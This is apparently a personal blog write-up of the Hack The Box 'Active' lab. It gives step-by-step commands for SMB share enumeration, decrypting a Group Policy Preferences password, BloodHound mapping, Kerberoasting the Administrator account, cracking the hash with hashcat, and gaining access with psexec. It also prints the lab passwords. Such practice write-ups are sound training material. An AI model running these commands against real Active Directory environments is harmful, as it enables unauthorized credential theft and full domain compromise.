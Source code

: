 ```yaml
---
layout: post
title: My first writeup! Hack The Box, Active
tags: [hackthebox, Active Directory, Bloodhound, hashcat, GPP]
---
```

![logo](/boxes/htb/active/activeDirectory.png)

### i. Port Scan
![nmap portscan](/boxes/htb/active/nmap.png)
### ii. Enumeration
SMB ports were listed open on the nmap scan. Let's check if any shares are available with smbclient and smbmap.
```
smbclient -L 10.10.10.100
smbmap -H 10.10.10.100
```
smbclient:
![smbclient](/boxes/htb/active/smbclient.png)

smbmap:
![smbmap](/boxes/htb/active/smbmap.png)

smbmap reveals a file share called Replication with read only permissions. Smbmap can be used to list the contents of the Replication directory:
```
smbmap -R Replication -H 10.10.10.100
```
Looking through the contents of the Replication directory there is a file called Groups.xml. This is a group policy file where local account information is typically stored for older Active Directory implementations.

![ReplicationFiles](/boxes/htb/active/groupsxml.png)

To download the file we use:
```
smbmap -R Replication -H 10.10.10.100 -A Groups.xml -q
```
Taking a look at the Groups.xml file, an account `SVC_TGS` and `edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH` encyrpted password was found. This password is encrypted with a known key:
```
https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-gppref/2c15cbf0-f086-4c74-8b70-1f2fa45dd4be
![msftknownkey](image)
```
```
![groups.xmlhash](/boxes/htb/active/grouphash.png)
```
To decrpyt the password, we use gpp-decrpyt:
```
![gppdecrypt](/boxes/htb/active/gppdecrypt.png)
```
The decrypted hash is `GPPstillStandingStrong2k18`
Using the credentials we found we enumerate more shares
```
smbmap -d active.htb -u svc_tgs -p GPPstillStandingStrong2k18 -H 10.10.10.100
```
![moreshares](/boxes/htb/active/)

The user flag was found under `SVC_TGS\Desktop\`

Now that we have credentials, let's Bloodhound the box. We switch to a windows vm and get a command prompt with the following command:
```
runas /netonly /user:active.htb\svc_tgs cmd
```
Make sure to check your DNS settings on your network adapter and set it to 10.10.10.100. Run sharphound with the following command to gather information:
```
sharphound.exe -c all -d active.htb --domaincontroller 10.10.10.100
```
We then drag and drop the zip file created from sharphound into the user interface of Bloodhound on our Kali machine. Checking for domain admin did not reveal anything. Checking for kerberoasting, the user `ADMINISTRATOR` is available for this attack.
![kerberoasting](image)
Using GetUserSPN.py from impacket we will grab the hash of `ADMINISTRATOR`
```
GetUserSPN.py -request -dc-ip 10.10.10.100 active.htb/svc_tgs
```
![adminhash](image)
We copy the hash into a file and use hashcat to crack the hash via the following command:
```
hashcat -m 13100 hash.txt rockyou.txt 
```
![crackedhash](image)
The Administrator password is: `Ticketmaster1968`

Now we can use psexec and log into the box and get the root flag
```
psexec.py active.htb/Administrator@10.10.10.100
```
![rootflag](image)
